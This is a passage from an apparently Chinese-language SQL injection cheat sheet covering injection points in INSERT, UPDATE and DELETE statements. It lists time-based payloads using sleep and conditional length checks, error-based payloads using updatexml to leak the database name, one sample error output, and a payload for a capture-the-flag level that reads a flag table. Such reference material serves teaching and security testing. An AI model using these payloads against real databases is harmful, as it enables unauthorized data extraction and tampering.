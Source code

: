 #### [](#1322-%E6%B3%A8%E5%85%A5%E7%82%B9%E4%BD%8D%E4%BA%8E-values)13.2.2 注入点位于 VALUES

##### [](#13221-insert-%E5%BB%B6%E6%97%B6)13.2.2.1 INSERT 延时

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>``` | ```sql<br>INSERT into wp_user_ (username,password,year) VALUES("test1","122","3" and sleep(1))<br><br>INSERT into wp_user_ (username,password,year) VALUES("test1","122","3" & sleep(1))<br><br>INSERT into wp_user_ (username,password,year) VALUES("test1","122","3" \| sleep(1))<br>``` |

##### [](#13222-insert-%E6%8A%A5%E9%94%99)13.2.2.2 INSERT 报错

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>``` | ```sql<br>INSERT into wp_user_ (username,password,year) VALUES("test1","122"or updatexml(1,concat(0x7e,DATABASE()),0),1)<br><br>INSERT into wp_user_ (username,password,year) VALUES("test1","122"and updatexml(1,concat(0x7e,DATABASE()),0),1)<br><br>INSERT into wp_user_ (username,password,year) VALUES("test1","122"&updatexml(1,concat(0x7e,DATABASE()),0),1)<br><br>INSERT into wp_user_ (username,password,year) VALUES("test1","122"\|updatexml(1,concat(0x7e,DATABASE()),0),1)<br><br>INSERT into wp_user_ (username,password,year) VALUES("test1","122"+updatexml(1,concat(0x7e,DATABASE()),0),1)<br>``` |

result: 1105 - XPATH syntax error: ‘~sectest’, Time: 0.000000s

**Demo**

[http://chall.tasteless.eu/level15/](http://chall.tasteless.eu/level15/)

payload

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>insert into tables values ('\',',(select flag from level15_flag))# ')<br>``` |

-   name: `\`
-   text: `,(select flag from level15_flag))#`

### [](#133-update-%E6%B3%A8%E5%85%A5)13.3 UPDATE 注入

#### [](#1331-update-%E6%8A%A5%E9%94%99)13.3.1 UPDATE 报错

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```sql<br>update wp_user_ set password="zxczxcxzc"or updatexml(1,concat(0x7e,database()),1) where id=9<br><br>update wp_user_ set password="zxczxcxzc"or(updatexml(1,concat(0x7e,database()),1)) where id=9<br>``` |

#### [](#1332-update-%E5%BB%B6%E6%97%B6)13.3.2 UPDATE 延时

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>``` | ```sql<br>update wp_user_ set password="2" and sleep(1) where id=9<br><br>update wp_user_ set password="00000000" and if((LENGTH(database())=8),sleep(1),0) where id=9<br>//password处必须为数字型<br>``` |

### [](#134-delete-%E6%B3%A8%E5%85%A5)13.4 DELETE 注入

#### [](#1341-delete-%E5%BB%B6%E6%97%B6)13.4.1 DELETE 延时

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```sql<br>delete from wp_user_ where id=21 or/and(sleep(2))<br><br>delete from wp_user_ where id=21 and if((LENGTH(database()=7)),sleep(2),0)<br>``` |
